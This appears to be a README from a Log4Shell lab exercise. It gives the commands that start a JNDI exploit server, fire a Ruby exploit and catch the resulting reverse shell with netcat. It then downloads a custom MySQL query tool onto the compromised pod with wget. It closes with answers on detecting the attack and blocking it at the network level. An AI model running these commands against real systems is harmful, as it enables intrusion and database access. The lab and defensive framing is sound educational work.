 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./exploit/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client. but there is no internet on the pod

launch a php server next to the file `mysql_utlis.jar` with the command.   ( This file is in exploit/ ) 
I build this jar file. the source code is next to it

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool I build in java with `wget`
I choosed this way for doing mysql request because the VM doesn't have internet and it's impossible to install some packet or really difficult 
So I built a little java binary that can make mysql request and display it from a tutorial I found on internet because I'm not a java developer at all. That was my first java program.  

```
wget host.minikube.internal:8000/mysql_utils.jar
```

inside the pod you can make query by using the tool this way:

``` 
java -jar mysql_utlis.jar db_name mysql_request 
```

To prove I did some sql request let's do some capture

```
java -jar mysql_utils.jar mysql "show databases;"
```

![screen_capture](images/screen_capture_mysql_request.png)

```
java -jar mysql_utils.jar sys "show columns from user_summary;"
```

![screen_capture](images/screen_capture_mysql01.png)

# Question

## How could we detect this exploit
The answer may vary because of what the server have to do on a regulary basis. But the simpliest solution is probably this: 
The exploit involve that the server, which use the Log4j library vulnerable, make some ldap / rmi / http request. If you log the network somewhere you should be able to see that request from the server. So you could say that every time your server make that kind of request himself to an IP you don't know as an ldap rmi or http server you own. This is the things where you can detect the exploit. you can't really hide or make this exploit works other way. 

An organisation should always log his network and check for scetchy behaviour on it. Snort is a good tool to do this. 
If you know that you own a log4j component vulnerable that you won't fix, you should start to do this.

## How to prevent without fix

To prevent without fix it. You could add some firewall rules or some WAF rules to block JNDI request to others servers you don't own. That mean you should do a whitelist of ip where your server can do those request. All the others are blocked.  Log4shell request may be LDAP RMI or HTTP request. you should block all those kind of request from your log server for IP you don't know. 

If you follow the principle of defense in depth, a log server should not be able to make any kind of request, block them all.  Except maybe the one for making backups if necessary.  Furthermore, if you need to do some request on your server,  to list your own servers which may legitimately receive request from your log4shell vulnerable asset should be easy. If it's not, you may need to redisign your network as it's dangerous to run a network like that. You could also remove the access to internet for the vulnerable tool if you don't need it.

You may also use the tool NCCGROUP provide  https://github.com/nccgroup/log4j-jndi-be-gone but it will block any JNDI request.
